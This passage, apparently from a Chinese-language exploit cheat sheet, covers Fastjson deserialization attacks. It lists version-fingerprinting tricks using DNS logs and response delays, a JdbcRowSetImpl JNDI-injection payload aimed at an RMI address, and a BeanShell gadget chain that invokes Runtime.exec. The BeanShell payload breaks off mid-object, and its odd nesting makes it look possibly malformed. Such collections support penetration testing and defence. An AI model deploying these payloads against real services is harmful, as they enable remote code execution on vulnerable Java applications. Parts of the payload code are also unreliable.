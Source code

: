     - **收到两条DNS记录**: 版本为 **`1.2.80`**。
    - **只收到一条DNS记录** (`second.dnslog.cn`): 版本为 **`1.2.83`**。

### 延时判断

1. JNDI连接 (探测 <= 1.2.24)
    
    payload:
    
    ```java
    {
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://127.0.0.1:9999/badClassName", 
        "autoCommit":true
    }
    ```
    
    如果服务器响应时间显著增长（例如超过3秒），则很可能版本**小于等于`1.2.24`**。
    

## Fastjson <= 1.2.24

`autoType`默认开启且无黑名单

1. JNDI注入 (`JdbcRowSetImpl`)
    
    不需要依赖
    
    ```java
    {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "rmi://127.0.0.1:1099/badClassName",
        "autoCommit": true
    }
    ```
    
2. JNDI注入 (`bsh - BeanShell`)
    
    需要`bsh`库
    
    ```java
    {
        "@type": "org.bsh.XThis",
        "tds": {
            "@type": "java.lang.Runtime",
            "methods": [
                "getRuntime",
                "exec"
            ]
        },
        "bsh.engine": {},
        "bsh.outer": {},
        "bsh.caller": {},
        "bsh.namespace": {
            "@type": "org.bsh.NameSpace",
            "This": {
                "@type": "org.bsh.This",
                "nameSpace": {
                    "@type": "org.bsh.NameSpace",
                    "This": {
                        "@type": "org.bsh.This",
                        "nameSpace": {
                            "@type": "org.bsh.NameSpace",
                            "parent": null,
                            "variables": {},
                            "methods": {}
                        },
                        "caller": {},